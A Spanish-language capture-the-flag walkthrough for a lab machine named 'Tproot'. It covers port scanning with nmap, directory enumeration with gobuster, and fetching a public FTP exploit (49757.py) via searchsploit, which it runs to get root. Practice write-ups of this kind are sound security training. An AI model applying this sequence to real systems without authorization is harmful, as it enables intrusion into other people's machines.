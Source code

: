 ```yaml
---
description: '✍️ Autor: d1se0🔍 Dificultad: Muy Fácil 📅 Fecha de creación: 10/02/2025'
---
```


# Tproot

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1167).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1168).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 21** perteneciente al **servicio FTP** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.&#x20;

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (1169).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80 que es la página de por defecto del Apache.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-12 162355.png" alt=""><figcaption></figcaption></figure>

Tampoco en el código fuente encontramos algo relevante por lo que revisaremos los directorios.

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml
```

<figure><img src="../../.gitbook/assets/image (1174).png" alt=""><figcaption></figcaption></figure>

No encontramos nada relevante en el puerto 80 por lo que indagaremos en el puerto 21. Revisando la versión del puerto contiene cierta vulnerabilidad importante por lo que vamos a explotarla.

<figure><img src="../../.gitbook/assets/image (1170).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Nos lo descargamos.

```bash
searchsploit -m unix/remote/49757.py
```

<figure><img src="../../.gitbook/assets/image (1172).png" alt=""><figcaption></figcaption></figure>

Ejecutamos.

```bash
python3 49757.py 172.17.0.2
```

<figure><img src="../../.gitbook/assets/image (1173).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

```
whoami
```

Ya somos **root**.
